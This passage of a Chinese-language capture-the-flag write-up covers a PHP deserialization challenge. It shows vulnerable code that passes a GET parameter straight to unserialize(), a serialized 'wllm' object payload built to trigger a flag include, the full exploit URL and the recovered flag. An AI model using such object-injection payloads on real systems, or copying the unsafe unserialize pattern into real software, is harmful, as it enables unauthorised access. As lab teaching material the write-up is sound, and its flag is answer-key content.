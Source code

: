 ```php
            
            include("flag.php"); 			 #include包含flag 当if判断成立时执行
            echo $flag;          			 #输出flag     
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}
 
$p = $_GET['p'];   							#get方法获取p并赋值
unserialize($p);   							#对p进行反序列化
?>

```

 **接下来就可以简单构造一下反序列化**

```
<?php
class wllm{
        public $admin="admin";
        public $passwd="ctf";
    }
    echo serialize(new wllm());
?>
```

**得到一个被反序列化后的值   **

```
O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```

**再把这个值拼接到url上**

```
http://node5.anna.nssctf.cn:28965/cl45s.php?
p=O:4:%22wllm%22:2:{s:5:%22admin%22;s:5:%22admin%22;s:6:%22passwd%22;s:3:%22ctf%22;}
```

**得到flag  `NSSCTF{9464157d-b346-447e-a4c3-9ad6395f71d5}`**

![image-20231102114430253](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231102114430253.webp) 
